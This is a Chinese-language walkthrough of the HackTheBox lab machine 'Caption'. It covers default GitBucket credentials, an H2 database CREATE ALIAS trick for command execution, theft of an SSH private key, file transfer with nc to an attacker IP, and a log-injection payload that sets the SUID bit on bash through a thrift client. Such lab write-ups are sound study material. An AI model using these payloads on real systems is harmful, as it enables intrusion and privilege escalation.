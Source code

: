 ```yaml
---
title: "HTB-Caption"
date: 2024-09-18
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap Scan

![](./images/image-221.png)

开放端口：`22`、`80`、`8080`

`caption.htb:80`👇是一个登陆界面

![](./images/image-222.png)

`caption.htb:8080`👇注意到是一个`Gitbucket`的服务

![](./images/image-223.png)

其中`GitBucket`可以使用弱密码登入：root-root

并且发现两个仓库：`Logservice`，`Portal`

![](./images/image-224.png)

在`Caption-Portal`仓库的提交历史中，发现了泄露的用户margo，以及密码

![](./images/image-226.png)

登录`80`端口，但并没有什么有价值的东西，Logs路由甚至是403Forbidden

![](./images/image-227.png)

## SQL RCE

在Gitbucket的管理界面发现了可以执行SQL语句的部分

并且暴露出了是H2数据库

![](./images/image-229.png)

Google搜索结果：[Chaining Vulnerabilities in H2 Database for RCE | by Nairuz Abulhul | R3d Buck3T | Medium](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2)

```
CREATE ALIAS REVEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : ""; 
}$$;
```

执行这段命令给exec起个别名，然后就能调用

![](./images/image-230.png)

在margo的文件夹下发现了ssh私钥文件

![](./images/image-231.png)

将其写入本地kali，注意格式化以及权限设置为600

![](./images/image-232.png)

得到user.txt

![](./images/image-233.png)

## Privilege Escalation

回到Gitbucket页面的另一个`Logservice`仓库，可以发现是用Go语言写的

![](./images/image-234.png)

并且还引入了`thrift`

![](./images/image-235.png)

并且是运行在9090端口上

![](./images/image-236.png)

将LogService进行git clone到margo目录下

![](./images/image-237.png)

```
#靶机执行开启服务
thrift --gen py log_service.thrift

#nc传输文件
margo@caption:~/Logservice$ nc -q 0 10.10.16.29 4321 < log_service.thrift
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# nc -lnvp 4321 > log_service.thrift

#kali安装库
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# pip3 install thrift
```

将靶机端口转发到kali上

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# ssh -i margo.key -L 9090:127.0.0.1:9090 margo@10.10.11.33 
```

写入恶意日志文件

```
margo@caption:~/Logservice$ cat /tmp/evil.log 
127.0.0.1 "user-agent":"'; /bin/bash /tmp/hyh.sh #"

margo@caption:~/Logservice$ cat /tmp/hyh.sh 
chmod +s /bin/bash
```

回到kali

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# thrift -r --gen py log_service.thrift
```

写入py文件

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption/gen-py]
└─# cat client.py   
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService

def main():
    transport = TSocket.TSocket('127.0.0.1', 9090)
    transport = TTransport.TBufferedTransport(transport)
    protocol = TBinaryProtocol.TBinaryProtocol(transport)
    client = LogService.Client(protocol)
    transport.open()
    try:
        response = client.ReadLogFile("/tmp/evil.log")
    except Exception as e:
        print(f"Error: {e}")
    finally:
        transport.close()

if __name__ == "__main__":
    main()
```

保存好后最后执行client.py

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption/gen-py]
└─# python client.py  
```

![](./images/image-238.png)

得到root.txt

## Summary

个人感觉还是有点抽象

提权部分主要的思路是写入恶意的日志文件，然后通过thrift的连接让客户端主动执行bash的权限提升

不过我搜索了一下好像并没有thrift的相关提权操作，这应该是thrift的特性？不知道是否是thrift的操作都具有最高权限。

相关的writeup

- [HacktheBox-Caption | 心流 (natro92.fun)](https://natro92.fun/posts/86683f6f/#thrift-PE)

- [HackTheBox: Caption | Str4ngerX (loghmariala.github.io)](https://loghmariala.github.io/posts/Caption/#exploitation)
